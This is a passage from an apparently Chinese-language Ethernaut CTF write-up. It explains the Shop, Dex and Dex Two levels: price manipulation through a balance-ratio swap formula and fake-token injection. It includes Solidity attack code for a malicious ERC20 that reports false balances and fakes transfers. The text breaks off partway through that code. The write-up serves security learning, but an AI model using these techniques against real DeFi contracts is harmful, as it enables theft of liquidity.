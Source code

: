 可能实际有变化，主要思想是：
- 避免调用外部合约的函数返回值来决定逻辑：
外部调用是不可控的，可能被恶意操纵。
- 使用 view 函数获取外部值后立即保存：
将外部函数的返回值保存到一个变量中，避免多次调用：

```solidity
uint256 currentPrice = _buyer.price();
if (currentPrice >= price && !isSold) {
    isSold = true;
    price = currentPrice;
}
```
- 严格验证逻辑：
使用内部逻辑或固定值来决定合约行为，而不是外部依赖。

## 22. Dex ✅ [Hard]

这个很有意思：
合约中代币价格的计算公式：uint256 swapAmount = (amount * toTokenBalance) / fromTokenBalance;
该公式是一个简单的比例计算，用于动态确定代币的兑换比例。理论上可以工作，但它完全依赖于当前的池子余额来计算价格。
当余额变化幅度较大（比如恶意用户操纵价格时），公式的输出就会大幅波动，导致价格失真。（容易出现1个Token1能换10个Token2的情况）那我来回倒腾就越赚越多。

缺乏保护机制：
没有滑点限制：滑点是代币价格波动的一个自然现象，但应该有一个限制，以避免因一次交易导致极端的价格变化。
缺乏最小价格检查：合约允许攻击者利用逐步减少余额的方式，导致一种代币价格变得极低甚至为零，从而耗尽流动性池。

这个漏洞暴露的问题是去中心化交易所需要更复杂的机制来保护池子的稳定性。解决方法是：  
- 使用 恒定乘积公式 确保价格平稳。
- 添加滑点保护和最小流动性限制。
- 避免直接依赖外部用户行为决定合约逻辑。
- 考虑手续费模型减少恶意行为的收益。


## 23. Dex Two ✅ [Hard]

这个对比dex1就是少了require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");限制
那就可以注入一个攻击Token只要是实现了ERC20就行，那就可以添加攻击transfer了
```solidity
contract MaliciousToken is ERC20 {
    constructor() ERC20("Malicious", "MTK") {}

    function balanceOf(address account) public view override returns (uint256) {
        return 1e18; // 固定返回高余额
    }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        return true; // 强制转账成功
    }
}

// 攻击合约
contract AttackDexTwo {
    DexTwo public dex;
    MaliciousToken public token;

    constructor(address _dex) {
        dex = DexTwo(_dex);
        token = new MaliciousToken();
    }

    function exploit() public {
        // 向 DexTwo 中添加恶意代币流动性
        dex.add_liquidity(address(token), 1); // 添加1个恶意代币
```